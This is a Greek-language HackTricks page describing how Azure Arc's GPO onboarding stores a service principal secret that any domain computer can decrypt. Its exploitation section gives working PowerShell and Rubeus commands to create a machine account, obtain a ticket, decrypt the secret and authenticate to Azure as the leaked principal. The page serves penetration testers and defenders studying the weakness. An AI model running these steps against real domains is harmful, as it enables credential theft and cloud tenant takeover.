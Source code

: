 # Az - Ευάλωτο Σενάριο Αναπτυγμένου GPO του Azure Arc

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Ερυθρού Συνεργείου HackTricks AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης των HackTricks:

- Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στα HackTricks** ή να **κατεβάσετε τα HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
- Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
- Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
- **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
- **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

### Αναγνώριση των Προβλημάτων

Το Azure Arc επιτρέπει την ολοκλήρωση νέων εσωτερικών διακομιστών (διακομιστές που έχουν ενταχθεί στον τομέα) στο Azure Arc χρησιμοποιώντας τη μέθοδο Group Policy Object. Για να διευκολύνει αυτή τη διαδικασία, η Microsoft παρέχει ένα εργαλείο ανάπτυξης απαραίτητο για την έναρξη της διαδικασίας ενσωμάτωσης. Μέσα στο αρχείο ArcEnableServerGroupPolicy.zip, μπορούν να βρεθούν τα ακόλουθα σενάρια: DeployGPO.ps1, EnableAzureArc.ps1, και AzureArcDeployment.psm1.

Κατά την εκτέλεση, το σενάριο DeployGPO.ps1 εκτελεί τις ακόλουθες ενέργειες:

1. Δημιουργεί το Azure Arc Servers Onboarding GPO εντός του τοπικού τομέα.
2. Αντιγράφει το σενάριο ενσωμάτωσης EnableAzureArc.ps1 στον καθορισμένο κοινόχρηστο φάκελο που δημιουργήθηκε για τη διαδικασία ενσωμάτωσης, ο οποίος περιέχει επίσης το πακέτο εγκατάστασης των Windows.

Κατά την εκτέλεση αυτού του σεναρίου, οι διαχειριστές συστημάτων πρέπει να παρέχουν δύο κύριες παραμέτρους: **ServicePrincipalId** και **ServicePrincipalClientSecret**. Επιπλέον, απαιτούνται άλλες παράμετροι όπως τον τομέα, το FQDN του διακομιστή που φιλοξενεί τον κοινόχρηστο φάκελο, και το όνομα του κοινόχρηστου φακέλου. Πρέπει επίσης να παρέχονται λεπτομέρειες όπως το αναγνωριστικό του ενοικιαστή, η ομάδα πόρων, και άλλες απαραίτητες πληροφορίες στο σενάριο.

Ένα κρυπτογραφημένο μυστικό δημιουργείται στον κατάλογο AzureArcDeploy στον καθορισμένο κοινόχρηστο φάκελο χρησιμοποιώντας την κρυπτογράφηση DPAPI-NG. Το κρυπτογραφημένο μυστικό αποθηκεώνεται σε ένα αρχείο με το όνομα encryptedServicePrincipalSecret. Αποδείξεις γι' αυτό μπορούν να βρεθούν στο σενάριο DeployGPO.ps1, όπου η κρυπτογράφηση πραγματοποιείται καλώντας το ProtectBase64 με το $descriptor και το $ServicePrincipalSecret ως είσοδο. Το descriptor αποτελείται από τα SIDs των ομάδων Domain Computer και Domain Controller, εξασφαλίζοντας ότι το ServicePrincipalSecret μπορεί να αποκρυπτογραφηθεί μόνο από τις ομάδες ασφαλείας Domain Controllers και Domain Computers, όπως αναφέρεται στα σχόλια του σεναρίου.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Εκμετάλλευση

Έχουμε τις ακόλουθες συνθήκες:

1. Έχουμε εισβάλει με επιτυχία στο εσωτερικό δίκτυο.
2. Έχουμε τη δυνατότητα να δημιουργήσουμε ή να αναλάβουμε τον έλεγχο ενός λογαριασμού υπολογιστή εντός του Active Directory.
3. Έχουμε ανακαλύψει ένα κοινόχρηστο φάκελο που περιέχει τον κατάλογο AzureArcDeploy.

Υπάρχουν αρκετές μέθοδοι για την απόκτηση ενός λογαριασμού μηχανής εντός ενός περιβάλλοντος AD. Μία από τις πιο κοινές είναι η εκμετάλλευση του ορίου του λογαριασμού μηχανής. Μια άλλη μέθοδος περιλαμβάνει την εκμετάλλευση ενός λογαριασμού μηχανής μέσω ευάλωτων ACLs ή διάφορων άλλων λαθών ρυθμίσεων.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Μόλας που αποκτήθηκε ένα λογαριασμός μηχανής, είναι δυνατή η πιστοποίηση χρησιμοποιώντας αυτόν τον λογαριασμό. Μπορούμε είτε να χρησιμοποιήσουμε την εντολή runas.exe με τη σημαία netonly είτε να χρησιμοποιήσουμε το pass-the-ticket με το Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Έχοντας το TGT για το λογαριασμό του υπολογιστή μας αποθηκευμένο στη μνήμη, μπορούμε να χρησιμοποιήσουμε το ακόλουθο script για να αποκρυπτογραφήσουμε το μυστικό του υπηρεσιών πρωτεύοντος.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Εναλλακτικά, μπορούμε να χρησιμοποιήσουμε το [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Σε αυτό το σημείο, μπορούμε να συγκεντρώσουμε τις υπόλοιπες πληροφορίες που χρειαζόμαστε για να συνδεθούμε στο Azure από το αρχείο ArcInfo.json, το οποίο αποθηκεύεται στον ίδιο κοινόχρηστο φάκελο με το αρχείο encryptedServicePrincipalSecret. Αυτό το αρχείο περιέχει λεπτομέρειες όπως: TenantId, servicePrincipalClientId, ResourceGroup, και άλλα. Με αυτές τις πληροφορίες, μπορούμε να χρησιμοποιήσουμε το Azure CLI για να πιστοποιηθούμε ως το υπηρεσιακό προνόμιο που έχει διαρρεύσει.

## Αναφορές

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

